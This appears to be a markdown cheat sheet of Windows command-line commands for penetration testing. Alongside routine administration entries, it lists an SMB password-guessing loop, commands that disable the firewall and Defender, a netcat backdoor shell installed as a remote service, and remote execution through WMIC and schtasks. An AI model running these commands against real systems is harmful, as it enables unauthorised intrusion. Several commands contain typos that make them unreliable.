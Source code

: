 ```yaml
---
title: Windows Commands
category: Misc
order: 4
---
```


>**Windows Commands**
Category | Topic | Command | Example
Accounts and Privileges | Lauch with Admin Privs | ctrl+shift+enter | 
Accounts and Privileges | SID | S-[revision level]-[authority level]-[domain/computer]-RID | 
Accounts and Privileges | Admin RID | 500 | 
Accounts and Privileges | Guest RID | 501 | 
Accounts and Privileges | Users RID | 1001 and up | 
Accounts and Privileges | Add or Remove a User | net user [username] [password] /add or /del | termservice, telnet
Accounts and Privileges | Add or Remove user to a group | net localgroup <group> <username> /add or /del | "Remote Desktop Users", TelnetClients, Administrators
Accounts and Privileges | List Local Users | net user | 
Accounts and Privileges | List Groups | net localgroup | 
Accounts and Privileges | List Administrators | net localgroup administrators | 
Accounts and Privileges | List Account Policy | net accounts or net accounts /domain | 
Accounts and Privileges | Password Guess | for /f %i in 9password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt | 
Accounts and Privileges | Run Progarm as another user | runas /u:fred "cmd /c echo Hello!", runas /smartcard "cmd /c echo Hello!" | 
AntiVirus | Turn off Windows Defender | control /name Microsoft.WindowsDefender | 
AntiVirus | Turn off Smart Screen | control /name Microsoft.ActionCenter | 
Inventory, File Search, and Counting | Count Lines | type "file" | find /c /v "" | 
Inventory, File Search, and Counting | Inventory Software | "dir /s ""c:\Program Files"" > inventory.txt
dir /s ""c:\Program Files (x86)"" >> inventory.txt" | 
Inventory, File Search, and Counting | Display File Contents | type [file], type *.[ext], type [file1] [file2] | 
Inventory, File Search, and Counting | Search in FIle | type [file] | find /i "[string]", type [file] | findstr [regex]  | 
Inventory, File Search, and Counting | See Environment Variables | set, set [variable_name] | username, path
Inventory, File Search, and Counting | Search for File | dir /b /s [directory]\[file]  (use ^ to escape spaces) | dir /b /s %systemroot%\hosts
Inventory, File Search, and Counting | Read Registry Key | reg query [keyName] | 
Inventory, File Search, and Counting | Change Registry Key | reg add [KeyName] /v [ValueName] /t [type] /d [data | 
Inventory, File Search, and Counting | Export Registry Keys | reg export [keyName] [filename.reg] | 
Inventory, File Search, and Counting | Import Registry Keys | reg import [filename.reg] | 
Inventory, File Search, and Counting | Find a String  | find "[string]", findstr [regex] | 
Network and Firewalls | Network Activity | netstat -na | find ":<port>" | 
Network and Firewalls | DNS cahce | ipconfig /displaydns | 
Network and Firewalls | Turn firewall off | netsh advfirewall set allprofiles state off | 
Network and Firewalls | Firewall Rule | netsh advfirewall firewall add rule name="<name>" dir=in action=allow remoteip=[yourIPaddress] protocol=TCP localport=<port number> | 3389, 23
Network and Firewalls | Delete Firewall Rule | netsh advfirewall firewall del rule name="<name>" | 
Network and Firewalls | Disable Firewall | netsh advfirewall set allprofiles state off | 
Network and Firewalls | Firewall Rule Registry | reg add HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /V 2000:TCP /T REG_SZ /F /D "2000:TCP:*:Enabled" | 
Network and Firewalls | View Firewall Configuration | netsh advfirewall show allprofiles | 
Network and Firewalls | Ping Sweep | for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" | 
Network and Firewalls | DNS Lookup | for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name" | 
Network and Firewalls | Netsh pivot | netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST> | 
Process and Service | Install a service | "pkgmgr /iu:""<servicename>""
dism /online /Enable-Features /FeatureName:TelnetServer" | 
Process and Service | List Running Services | sc query | 
Process and Service | List All Services | sc query state= all | 
Process and Service | List Remote Services  | sc \\[targetIP] query | 
Process and Service | Check status of service | sc query <service name> | 
Process and Service | Start/Stop a service | sc start/stop <service name> | 
Process and Service | Change Startup type of service | sc config <servicename> start= demand | termservice, telnet
Process and Service | Delete Service | sc delete <service name> | 
Process and Service | List Processes | tasklist | 
Process and Service | Kill a Process | taskkill /PID [process_ID] | 
Remote Access, SMB, and WMIC | See Current Privileges | whoami | 
Remote Access, SMB, and WMIC | Windows null session | net use \\targetip "" /u:"" | 
Remote Access, SMB, and WMIC | Establish an SMB session | net use \\[targetIP] [password] /u:[user] | 
Remote Access, SMB, and WMIC | Mount a Share on Target | "net use * \\[targetIP]\[share] [password] /u:[user]
net use * \\[targetIP]\[share] [password] /u:[MachineName_or_Domain]\[user]" | 
Remote Access, SMB, and WMIC | Dropping SMB Session | "net use \\[targetIP] /del
net use * /del" | 
Remote Access, SMB, and WMIC | Run a Remote Command | sc \\[targetIP] create netcat binpath= "cmd.exe /k c:\tools\nc.exe -L -p cmd.exe" | 
Remote Access, SMB, and WMIC | Turn on Remote Desktop / terminal services | reg add "hklm\system\currentcontrolset\control\terminal server" /v fdenysconnetions /t reg_dword /d 0 | 
Remote Access, SMB, and WMIC | Remote Registry  | Put \\[MachineName] before [KeyName] | 
Remote Access, SMB, and WMIC | WMIC Invoke Porgram | wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] | 
Remote Access, SMB, and WMIC | WMIC on Multiple Machines | /node:@[filename] - run a command on multiple machines listed in a file | 
Remote Access, SMB, and WMIC | WMIC Service Query | wmic services where (displayname like "%[whatever]%") get name | 
Remote Access, SMB, and WMIC | WMIC List Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process list brief | 
Remote Access, SMB, and WMIC | WMIC Kill Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process where name="[name]" delete or processID="[PID]" delete | 
Remote Access, SMB, and WMIC | WMIC Monitor Process | wmic process where name="[name]" list brief /every:1 | "nc.exe"
Remote Access, SMB, and WMIC | at (windows 7 and lower)(all commands at SYSTEM) | "net use \\[targetIP] [password] /u:[admin_user]
sc \\[targetIP] query schedule (*make sure it is running*)
*sc \\[targetIP] start schedule*
at [\\targetIP] [HH:MM] [A|P] [command]
at \\[machine] [time] cmd /c ""[command]""
at \\[targetIP} (*check status*)" | 
Remote Access, SMB, and WMIC | schtasksStart TIme - HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE | "> net use \\[targetIP] [password] /u:[admin_user]
> sc \\[targetIP] query schedule (*make sure it is running*)
> *sc \\[targetIP] start schedule*
> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command]
> schtasks /query /s [targetIP]
>" | 
Remote Access, SMB, and WMIC | Simple Windows IIS Express Server | C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\tools /port:8001 | 
Scripting and Shell | Navigate History | F7 | 
Scripting and Shell | For Loops | "for /L %i in ([start], [step], [stop]) do [command]) 
*note: step of zero runs forever" | for /L %i in (1, 1, 255) do echo %i
Scripting and Shell | For Loops Iterate | for /F ["options"] %i in ([stuff]) do [command] | 
Scripting and Shell | Pause/Break | timeout /t 4 /nobreak | 
Scripting and Shell | Turn off command echo | @ | for /L %i in (1, 1, 255) do @echo %i
Scripting and Shell | Multiple Commands | & | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak
Scripting and Shell | Multiple Successful Commands | && | 
Scripting and Shell | Throw Away Output | >nul | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak > null
Scripting and Shell | Print Blank Line or Beap | echo., echo CTRL-G | 
Scripting and Shell | CR/LF (0d0a) | Windows use CR/LF as EOF characters. | 


